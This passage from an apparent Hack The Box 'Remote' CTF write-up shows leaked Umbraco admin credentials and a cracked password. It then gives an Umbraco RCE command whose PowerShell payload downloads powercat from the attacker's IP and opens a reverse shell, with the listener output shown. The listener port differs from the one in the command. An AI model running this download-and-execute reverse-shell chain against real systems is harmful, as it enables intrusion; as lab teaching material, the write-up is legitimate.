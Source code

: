 ```bash
User "admin" <admin@htb.local>192.168.195.1User "admin" <admin@htb.local>umbraco/user/sign-in/logoutlogout success
User "SYSTEM" 192.168.195.1User "admin" <admin@htb.local>umbraco/user/saveupdating LastLoginDate, LastPasswordChangeDate, UpdateDate
User "SYSTEM" 192.168.195.1User "admin" <admin@htb.local>umbraco/user/sign-in/loginlogin success
User "admin" <admin@htb.local>192.168.195.1User "smith" <smith@htb.local>umbraco/user/saveupdating LastPasswordChangeDate, RawPasswordValue, SecurityStamp, UpdateDate
```

We can see that, there is an user named `admin@htb.local` and the following line has the credentials for `admin`.

```bash
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
```

The password is hashed. We can try cracking it using any offline tools, or any online rainbow table lookup websites.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/remote/crack.png){: .align-center}
    
## User Shell

We have the credentials for `admin`, we can now use the `Umbraco` RCE to get a shell.

The script given in the exploit db only contains a poc. I used [this script.](https://github.com/noraj/Umbraco-RCE/blob/master/exploit.py)

```bash
 python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://remote.htb' -c powershell.exe -a "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.24:8000/powercat.ps1');powercat -c 10.10.14.24 -p 1234 -e cmd"
 ```
 
 The the exploit will execute a `powershell` command that downloads the [`powercat`](https://github.com/besimorhino/powercat) script from my machine and then executes a reverse shell. We have to start a `python` server to serve up the `powercat` file.
 
 ```bash
 kali@kali:~/Desktop/htb/remote$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.14.24] from remote.htb [10.10.10.180] 49684
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool
```

## Root Shell (Method 1 Teamviewer using msf)

Run `winpeas` to look for attack vectors.
